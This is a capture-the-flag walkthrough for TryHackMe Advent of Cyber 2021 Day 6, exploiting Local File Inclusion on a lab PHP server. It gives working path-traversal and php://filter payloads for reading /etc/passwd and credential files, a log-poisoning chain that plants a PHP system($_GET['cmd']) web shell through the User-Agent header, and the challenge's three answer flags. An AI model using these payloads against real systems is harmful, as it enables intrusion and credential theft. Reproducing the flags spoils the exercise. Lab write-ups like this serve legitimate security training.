





# TryHackMe - Advent of Cyber 2021 - Day 6
## Patch Management is Hard
> Edward Hartmann
> DATE

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](_AoC-2021_TOC.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #lfi 
[^2]: *Flag 1*: THM{d29e08941cf7fe41df55f1a7da6c4c06} 
					*Flag 2*: THM{791d43d46018a0d89361dbf60d5d9eb8}
					*Flag 3*: THM{552f313b52e3c3dbf5257d8c6db7f6f1}

## Walkthrough

In this scenario, we have a website vulnerable to [Local File Inclusion (LFI)](../../../knowledge-base/vulnerabilities/local_file_inclusion_LFI.md) that is running `PHP` on the backend. How do we know it is `PHP`? When we first access the URL provided, the browser gives it away by showing us an error on the page `index.php`. We also know it is using `err` as a query parameter, and that `error.txt` is present in the current working directory. 

> `err` is the "entry point" for this **LFI**

Attempting to replace the current file `error.txt` with something of our own produces a very verbose error. 

We substitute a file query `notafile.txt` and we got a really nice error. We now know a few things:
- It uses the `PHP` function `include` in the code. 
- The path for `include` is `.:/usr/lib/php5.2/lib/php` in `/var/www/html/index.php`.

So what can we do with this information? 

As we are limited to the tools at hand for **LFI**, `PHP` is the vehicle we will use. The first thing we are asked to try is a **PHP Filter** wrapper. Let's give it a go with the command `php://filter/resources=/etc/passwd`

More on `PHP` wrappers here &mdash; [PHP Documentation - Wrappers](https://www.php.net/manual/en/wrappers.php.php) 

Ironically, this `PHP` function is not required. All we needed was some [path_traversal](../../../knowledge-base/vulnerabilities/path_traversal.md) to make this work as well. Knowing we are in the `/var/www/html` directory, lets swap `error.txt` with `../../../etc/passwd` and see if that works as well. 

`https://<YOUR_VULNERABLE_IP>.p.thmlabs.com/index.php?err=../../../etc/passwd`

Same thing. Moving on...

We are asked to get the `/etc/flag` file using **LFI**. Submit a similar request as`/etc/passwd` to get this file, either with the filter or path traversal. 

We are then asked to find the flag within the source code of `index.php` attempting to read this in the same manner produces an error. This is because the file we are trying to read *is* code and the web page will try to execute it rather than displaying it. 

The `/etc/flag` file was just text, not wrapped in `PHP` code, so we did not need to apply any additional functions with `filter`. If you want to read actual source-code, you'll need to encode it, otherwise, the server will produce either run the code or produce the error attempting to run the code. This is where arguments added to the `php://filter` command come in. 

<u>**Two of the options for this scenario:**</u>
- `https://<YOUR-IP-WITH-DASHES>.p.thmlabs.com/index.php?err=php://filter/read=string.rot13/resource=index.php`
	- Prints to screen &mdash; `Jrypbzr Guvf freire unf frafvgvir vasbezngvba. Abgr Nyy npgvbaf gb guvf freire ner ybttrq va!``
- `https://<YOUR-IP-WITH-DASHES>.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=index.php`
	- Prints to screen &mdash; `PD9waHAgc2Vzc2lvbl9zdGFydCgpOwokZmxhZyA9ICJUSE17NzkxZDQzZDQ2MDE4YTBkODkzNjFkYmY2MGQ1ZDllYjh9IjsKaW5jbHVkZSgiLi9pbmNsdWRlcy9jcmVkcy5waHAiKTsKaWYoJF9TRVNTSU9OWyd1c2VybmFtZSddID09PSAkVVNFUil7ICAgICAgICAgICAgICAgICAgICAgICAgCgloZWFkZXIoICdMb2NhdGlvbjogbWFuYWdlLnBocCcgKTsKCWRpZSgpOwp9IGVsc2UgewoJJGxhYk51bSA9ICIiOwogIHJlcXVpcmUgIi4vaW5jbHVkZXMvaGVhZGVyLnBocCI7Cj8+CjxkaXYgY2xhc3M9InJvdyI+CiAgPGRpdiBjbGFzcz0iY29sLWxnLTEyIj4KICA8L2Rpdj4KICA8ZGl2IGNsYXNzPSJjb2wtbGctOCBjb2wtb2Zmc2V0LTEiPgogICAgICA8P3BocCBpZiAoaXNzZXQoJGVycm9yKSkgeyA/PgogICAgICAgICAgPHNwYW4gY2xhc3M9InRleHQgdGV4dC1kYW5nZXIiPjxiPjw/cGhwIGVjaG8gJGVycm9yOyA/PjwvYj48L3NwYW4+CiAgICAgIDw/cGhwIH0KCj8+CiA8cD5XZWxjb21lIDw/cGhwIGVjaG8gZ2V0VXNlck5hbWUoKTsgPz48L3A+Cgk8ZGl2IGNsYXNzPSJhbGVydCBhbGVydC1kYW5nZXIiIHJvbGU9ImFsZXJ0Ij5UaGlzIHNlcnZlciBoYXMgc2Vuc2l0aXZlIGluZm9ybWF0aW9uLiBOb3RlIEFsbCBhY3Rpb25zIHRvIHRoaXMgc2VydmVyIGFyZSBsb2dnZWQgaW4hPC9kaXY+IAoJPC9kaXY+Cjw/cGhwIGlmKCRlcnJJbmNsdWRlKXsgaW5jbHVkZSgkX0dFVFsnZXJyJ10pO30gPz4KPC9kaXY+Cgo8P3BocAp9Cj8+`

Here is an example using `filter/read=string.rot13`

The `rot13` string simply reproduces the standard message on the screen. Using [CyberChef](https://gchq.github.io/CyberChef/) we can decode the `base64` [encoded](../../../knowledge-base/concepts/encoding_decoding.md) strings. 

> You can decode in a number of tools, including Zap, Burp, and even on the command line with the `base64 --decode` command.. 

> You can even paste in **encoded** `PHP` code and use a wrapper to decode it on the web page, possible leading to [Remote Code Execution](remote_code_execution_rce.md) using a piece of code like `page.php?file=data://text/plain;base64,SSBhbSBhbiBSQ0UK==`

Next, we are told McSkidy lost his password. If you look again at the decoded `index.php` file from earlier, you can see a line under the flag that hints at a credentials file:

`include("./includes/creds.php");`

A well coded web page will not allow us to browse there, but we may be able to access it through a `PHP` **LFI**. Let's try and render this in the same way as we did with the `index.php` file. We'll use the `base64` version of the filter command. 

`php://filter/convert.base64-encode/resource=./includes/creds.php`

Viola! We have `base64` encoded credentials. Running this on the CLI returns some good information. 

Heading back to the *Home* page and logging in with McSkidy's credentials, we are given the final flag for the box when we attempt to reset his credentials. 

For the last task, we are told that the web app logs all user requests, and only those that are authorized can read the log file. We need an **LFI RCE** to access the log files page. We also need the name of the webserver. The location of the log file is `/.includes/logs/app_access.log`. 

In the case of log files, this is called [log poisoning](../../../knowledge-base/vulnerabilities/log_poisoning.md), a technique used to gain **RCE** on a web server by injecting a malicious payload into a log then accessing that log file to run the payload. 

> See the link for more details

Given we have access to the log file at  via McSkidy's manage page **and** the `/includes/logs/app_access.log` file it is worth testing a modified `HTTP` request and reading the log file. Let's confirm access first.

We also see the format of the log file here &mdash; `user:ip:USER-Agent:Page`. With that done, it is time to craft a request using `curl -A`. The `-A` command allows us to specify the `User-Agent` in the command. 

> In the best scenario, this is for testing. In our scenario, it is for malicious code. `curl` has a bit of a learning code, but it allows you to entirely customize an `HTTP` request. 

Run a command like the following

`curl -A "Some kind of text" https://<YOUR-IP-WITH-DASHES>.p.thmlabs.com/logs.php`

Refresh the log page and scroll down to see your log. 

With the `curl` successful, let's try a `PHP` proof of concept, sending an actual piece of `PHP` code in a `curl` request as the `User-Agent`. 

`curl -A "<?php phpinfo()?>" https://10-10-54-138.p.thmlabs.com/index.php`

With that, we have proof the `PHP` log poisoning works. The `User-Agent` will render as plain text, but actual `PHP` code should not run on the client side. Given we do not see the `User-Agent` and only see the page accessed, this is a success.

Lets actually call the log file we were given earlier and see what `phpinfo()` does when called. 

Log out and head to the original home-page at `index.php?err=error.txt` text in the URL bar and replace `error.txt` with the location of the log file &mdash; `./includes/logs/app_access.log`

Look at that! Our `PHP` code returned precisely what it was supposed to, info on the `PHP` running on the server. 

This will happen in stages. First, we want to ensure the backdoor will work. Start with some more `PHP` code we can try and find on the server. 

`curl -A "<?php echo 'n0_ware on your server    spaces     ';system(\$_GET['cmd']);?>" https://<YOUR-IP-WITH-DASHES>.p.thmlabs.com/index.php`

To break this down....
- `echo` will tell the system to print some random value to know that we have code execution
- `;` is a delimeter to separate two statements. 
- `system(\$_GET)` is the classic `PHP` backdoor, setting it up to that when we make a `GET` request with a parameter we can get any code execution that we want.
- `['cmd']` is the parameter we want executed. It can be anything

After curling this command, we are going to use [path traversal](../../../knowledge-base/vulnerabilities/path_traversal.md) to access `app_access.log` directly from the web root. 

On the homepage with `index.php?err`, traverse the path with `=../../../../var/www/html/includes/logs/app/app_access.log`
Finally, let's try an **RCE**. 
Congratulations on completing the box! Continue on for the bonus challenge. 

 
 
 - 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
